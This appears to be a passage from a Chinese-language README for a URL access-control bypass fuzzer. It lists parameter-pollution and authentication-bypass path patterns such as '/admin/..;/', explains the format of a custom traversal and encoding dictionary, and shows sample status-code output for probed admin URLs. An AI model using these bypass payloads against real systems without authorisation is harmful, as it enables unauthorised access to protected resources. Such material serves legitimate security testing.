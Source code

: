 7. 参数污染
   - /?testparam
   - /#test
   - ?a.css, ?a.js, ?a.jpg
   - /??, /???

8. 认证绕过
   - /admin/../test.log
   - ../admin
   - /admin/..;/

### 自定义字典格式

字典文件每行一个 bypass 模式，支持注释（以 # 开头）：

# URL编码绕过
%2e
%2f
目录遍历
../
..;/
特殊字符
;
# 文件扩展
.json
.css

### 字典来源

默认字典基于 [rainy-go/url-parsing-bypass](https://github.com/rainy-go/url-parsing-bypass) 项目，包含了广泛的 URL bypass 测试用例。你也可以使用 `-d` 参数指定自己的字典文件。

## 输出示例

控制台输出：

[Status: 200]

200 [Size: 1234] - https://example.com/admin%2e/index.html

200 [Size: 1240] - https://example.com/admin/..;/

200 [Size: 1156] - https://example.com/admin.json

[Status: 403]

403 [Size: 789] - https://example.com/admin/%00/index.php

403 [Size: 892] - https://example.com/admin/%2e%2e/

[Status: 404]

404 [Size: 345] - https://example.com/admin.js
